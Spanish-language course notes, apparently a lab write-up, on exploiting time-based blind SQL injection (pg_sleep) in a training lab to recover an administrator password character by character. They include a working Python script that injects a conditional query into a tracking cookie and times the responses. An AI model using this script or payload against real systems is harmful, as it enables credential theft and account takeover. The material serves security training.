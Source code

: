 En esta clase damos continuidad al proceso de explotación visto anteriormente, en el que empleamos una inyección SQL ciega con retardos temporales (**pg_sleep**) para filtrar información sensible sin respuestas visibles del servidor.

Partimos desde el punto en el que ya conocemos la longitud de la contraseña del usuario ‘**administrator**‘. Ahora nos centramos en automatizar por completo la recuperación del valor de cada carácter que la compone, utilizando Burp Intruder para iterar de forma sistemática por todas las posiciones y valores posibles (letras minúsculas y números).

Se configura un ataque por cada posición de la contraseña, adaptando la consulta con ‘**SUBSTRING(password, n, 1)**‘ y analizando el retardo en la respuesta para identificar el carácter correcto. Cada vez que se produce una demora significativa (≈10 segundos), se confirma que el carácter probado es el correcto.

Repetimos el proceso hasta reconstruir completamente la contraseña, cerrando el ejercicio con el acceso exitoso a la cuenta del administrador.

Script
![Pasted_image_20250704124641.png](Imagenes/Pasted_image_20250704124641.png)
![Pasted_image_20250704125451.png](Imagenes/Pasted_image_20250704125451.png)
Script

#!/usr/bin/env python3 
from pwn import *
from termcolor import colored

import requests
import signal
import sys
import string

def def_handler(sig, frame):
    p1.failure("Ataque de fuerza bruta detenido") 
    print(colored(f"\n[!] Saliendo...\n", 'red')) 
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

characters = string.ascii_lowercase + string.digits 
p1 = log.progress("SQLI")

def makeSQLI():

    password = ""

    p1.status("Iniciando ataque de fuerza bruta") 
    time.sleep(2)

    p2 = log.progress("Password")

    for position in range(1, 21):
        for character in characters:
            cookies = {
                'TrackingId': f"test'%3b select case when(username='administrator' and substring(password, {position},1)='{character}') then pg_sleep(3) else pg_sleep(0) end from users-- -",
                'session': "0Vj8dxoJmIzQF8MyDtjXuHORoz7NTXNZ"
            }

            p1.status(cookies["TrackingId"])

            time_start = time.time()

            r = requests.get("https://0a3e00d004218e53801a35c3000300be.web-security-academy.net", cookies=cookies)
            
            time_end = time.time()

            if time_end - time_start > 3:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':

    makeSQLI()

![Pasted_image_20250704131955.png](Imagenes/Pasted_image_20250704131955.png)
En mysql
![Pasted_image_20250704132254.png](Imagenes/Pasted_image_20250704132254.png)
